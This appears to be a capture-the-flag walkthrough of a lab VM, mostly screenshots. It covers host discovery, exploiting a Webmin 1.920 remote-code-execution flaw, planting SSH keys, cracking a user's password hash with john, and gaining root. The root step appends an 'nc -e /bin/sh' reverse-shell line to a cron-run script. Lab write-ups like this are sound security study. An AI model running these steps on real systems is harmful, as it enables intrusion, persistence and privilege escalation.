 

### **Netdiscover**


<img src="images/Screen Shot 2019-09-16 at 7.52.08 PM.png" alt="Screen Shot 2019-09-16 at 7.52.08 PM"  />


We use the tools called netdiscover scan hosts, we found the 192.168.0.106 is our target virtualbox host ip.

------

### **Namp**

<img src="images/Screen Shot 2019-09-16 at 7.55.18 PM.png" alt="Screen Shot 2019-09-16 at 7.55.18 PM"  />


We found some services  <u>SSH</u>, <u>HTTP</u>, <u>HTTP(webmin)</u>

------

### Solution

<img src="images/Screen Shot 2019-09-16 at 8.04.36 PM.png" alt="Screen Shot 2019-09-16 at 8.04.36 PM"  />

By googling webmin 1.920, we can find there exists a Remote code Execution Attack.We can download from 

[https://www.exploit-db.com/exploits/47293](https://www.exploit-db.com/exploits/47293)

<img src="images/Screen Shot 2019-09-16 at 8.23.12 PM.png" alt="Screen Shot 2019-09-16 at 8.23.12 PM"  />

run this exploit bash, we can find this webmin system is vulnerable.

so we use instead his cmd with our reverse shell.

<img src="images/Screen Shot 2019-09-16 at 8.25.09 PM.png" alt="Screen Shot 2019-09-16 at 8.25.09 PM"  />

We nc listen 2333,  run this exploit , we can connect to this host.

<img src="images/Screen Shot 2019-09-16 at 8.27.58 PM.png" alt="Screen Shot 2019-09-16 at 8.27.58 PM"  />

Now we go into nezuko home directory, we found a .ssh directory and a nezuko.txt(flag)

<img src="images/Screen Shot 2019-09-16 at 8.30.37 PM.png" alt="Screen Shot 2019-09-16 at 8.30.37 PM"  />

We put our authorized_keys upload, so that we can use shell better.

<img src="images/Screen Shot 2019-09-16 at 8.33.22 PM.png" alt="Screen Shot 2019-09-16 at 8.33.22 PM"  />

we go into from_zenitsu directory, found root may log in this directory.
<img src="images/Screen Shot 2019-09-16 at 8.36.06 PM.png" alt="Screen Shot 2019-09-16 at 8.36.06 PM"  />

emmm......

now we return /home directory, we found zenitsu, go into zenitsu home directory, found zenitsu.txt（flag）

<img src="images/Screen Shot 2019-09-16 at 8.39.56 PM.png" alt="Screen Shot 2019-09-16 at 8.39.56 PM"  />

luckily, we found a send_message_to_nezuko.sh, have group zenitsu:root privilege.
<img src="images/Screen Shot 2019-09-16 at 8.42.39 PM.png" alt="Screen Shot 2019-09-16 at 8.42.39 PM"  />

So the scripts may be run by crontab in user called root .

poorly,  we don't own the zenitsu privilege, so we cat /ect/passwd, found his password hash.
<img src="images/Screen Shot 2019-09-16 at 8.50.01 PM.png" alt="Screen Shot 2019-09-16 at 8.50.01 PM"  />


So we use john to brute force this password, the password is meowmeow.
<img src="images/Screen Shot 2019-09-16 at 8.50.54 PM.png" alt="Screen Shot 2019-09-16 at 8.50.54 PM"  />


We ssh login user zenitsu with his password. otherwise, zenitsu is not allowed to login in ssh, so we

su - zenitsu, successfully.

<img src="images/Screen Shot 2019-09-16 at 8.53.39 PM.png" alt="Screen Shot 2019-09-16 at 8.53.39 PM"  />


so we `echo 'nc -e /bin/sh 192.168.0.105 2334' >> send_message_to_nezuko.sh`

wait a little time , we can connect from user root.

that's all, thanks for reading ^_^

------



------

**That' all , Thanks for your watching**